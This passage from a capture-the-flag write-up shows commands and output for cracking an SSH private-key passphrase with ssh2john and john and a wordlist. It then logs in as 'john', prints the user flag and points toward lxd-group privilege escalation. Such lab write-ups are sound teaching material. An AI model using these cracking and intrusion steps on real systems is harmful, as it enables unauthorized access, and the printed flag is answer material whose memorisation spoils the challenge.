`dict.lst` is a wordlist. I decided to use it to brute-force the password for the private key. First I used a tool called `ssh2john` which changes the format of the key to a crackable forma for `john`. Then I used `john` and `dict.lst` to crack the password:

~~~
└─$ /usr/share/john/ssh2john.py secretKey > priv.hash
                                                                                                                      
└─$ john --wordlist=./dict.lst priv.hash                                 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2021-12-19 01:36) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
~~~

Great! We found the password of the private key (`letmein`) and have a possible username (`john`), so let's try to connect to the machine via ssh. First set the permission of the key to 600 and then use it:

~~~
└─$ chmod 600 secretKey
                                                                                                                      
└─$ ssh -i secretKey john@$IP 
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

[REDACTED]

john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~

We're in!

## User Flag

By listing the files in `john`'s home directory, we can see that the file containing the user flag is here:

~~~
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
~~~

User flag: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

## Privilege Escalation

Now we need to gain root access. We can't run `sudo -l` because we don't have john's password, but if you pay attention to result of `id` command, you can see that user `john` is in `lxd` group:

